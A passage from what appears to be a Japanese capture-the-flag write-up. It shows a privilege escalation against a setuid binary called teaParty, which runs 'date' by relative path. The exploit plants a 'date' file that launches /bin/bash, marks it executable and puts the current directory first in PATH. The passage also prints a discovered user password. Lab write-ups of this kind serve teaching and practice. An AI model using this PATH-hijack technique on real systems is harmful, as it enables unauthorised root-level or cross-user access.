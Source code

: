 ```
```
- 呼び出される関数とかを確認
- date -l が実行されている
- 絶対パスではなく相対ぱすでコマンド探してるので、つまりdateコマンドにbashの起動コマンドとか入れて置いておけば、root権限での実行が可能
- 

```
echo "/bin/bash" > date
chmod +x date
export PATH=.:$PATH
./teaParty
```
- bashの起動コマンドを記載したdateファイルを作成
- dateに実行権限追加
- PATHを変更。カレントディレクトリのdateが優先されるように変更する
- 再度実行
- 見事hatterの権限奪取成功

### hatter

- パスワードファイルを確認
- WhyIsARavenLikeAWritingDesk?

### user.txt

- /rootにcdできたのでcat user.txtで取得完了


```
file teaParty 
teaParty: setuid, setgid ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=75a832557e341d3f65157c22fafd6d6ed7413474, not stripped

```



## 4. Flags
